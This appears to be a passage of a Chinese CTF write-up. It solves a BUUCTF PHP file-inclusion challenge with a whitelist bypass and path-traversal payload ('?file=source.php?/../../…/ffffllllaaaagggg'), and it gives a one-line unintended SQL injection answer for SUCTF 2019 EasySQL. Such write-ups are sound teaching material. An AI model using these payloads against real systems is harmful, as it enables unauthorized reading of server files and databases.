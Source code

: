 ```php
        include $_REQUEST['file'];
        exit;
    } else {
        echo "<br><img src=\"https://i.loli.net/2018/11/01/5bdb0d93dc794.jpg\" />";
    }  
?>
```

发现有个hint.php，进去看看

```
flag not here, and flag in ffffllllaaaagggg
```

文件包含，根据白名单，可以包含

```
http://cd9db9a0-af20-4d93-a66b-4ad9ddd2e0c4.node3.buuoj.cn/index.php?file=hint.php
http://cd9db9a0-af20-4d93-a66b-4ad9ddd2e0c4.node3.buuoj.cn/index.php?file=source.php
```

成功包含需要满足三个条件

1. `$_REQUEST['file']`不为空
2. `$_REQUEST['file']`是字符串
3. `$_REQUEST['file']`满足check

```php
            $_page = mb_substr(
                $page,
                0,
                mb_strpos($page . '?', '?')
            );
            if (in_array($_page, $whitelist)) {
                return true;
            }
```

用问号分割，取出字符串开头到第一个问号直接的字符串与白名单比较

payload

```
?file=source.php?/../../../../../ffffllllaaaagggg
```

./ 当前目录 ../ 上一级目录



## [SUCTF 2019]EasySQL

* ### 非预期解

  ```
  *,1
  ```

